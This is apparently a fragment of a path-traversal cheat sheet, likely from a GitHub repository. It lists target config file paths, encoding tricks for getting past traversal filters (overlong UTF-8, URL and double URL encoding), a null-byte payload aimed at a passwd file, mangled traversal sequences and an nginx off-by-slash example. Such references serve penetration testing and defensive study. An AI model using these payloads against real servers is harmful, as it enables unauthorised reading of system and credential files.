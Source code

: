   - Web Server Config Files
    - /etc/apache2/apache2.conf
    - /etc/apache2/sites-available/000-default.conf
    - /etc/nginx/nginx.conf
    - /etc/php/php.ini
- Path Bypass
  - Encoding
    | Encoding                        | Payload   | Decode |
    |:--------------------------------|:----------|:-------|
    | unicode/UTF-8 encoding          | %c1%1c    |        |
    |                                 | %c0%af    |        |
    | unicode/UTF-7 encoding          |           |        |
    | overlong UTF-8 unicode encoding | %c0%2e    | `.`    |
    |                                 | %e0%40%ae | `.`    |
    |                                 | %c0ae     | `.`    |
    |                                 | %c0%af    | `/`    |
    |                                 | %e0%80%af | `/`    |
    |                                 | %c0%2f    | `/`    |
    |                                 | %c0%5c    | `\`    |
    |                                 | %c0%80%5c | `\`    |
    | URL encoding                    | %2e%2e%2f | `../`  |
    |                                 | %2e%2e/   | `../`  |
    |                                 | ..%2f     | `../`  |
    |                                 | %2e%2e%5c | `..\`  |
    | double URL encoding             | %252F     | `/`    |
    |                                 | %255C     | `\`    |
    | 16-bit Unicode encoding         | %u002e    | `.`    |
    |                                 | %u2215    | `/`    |
    |                                 | %u2216    | `\`    |
  - Null Bytes
    > bypass file type checking

    - `../../../../../passwd%00.jpg`
  - Mangled Paths
    > bypass removing traversal sequences

    - `....//`
    - `...\//`
    - `..//..//..\`        
  - Nginx Misconfiguration
    > Nginx off-by-slash fail
    >
    > `http://127.0.0.1/static../settings.py` => `/home/app/static/../settings.py`
    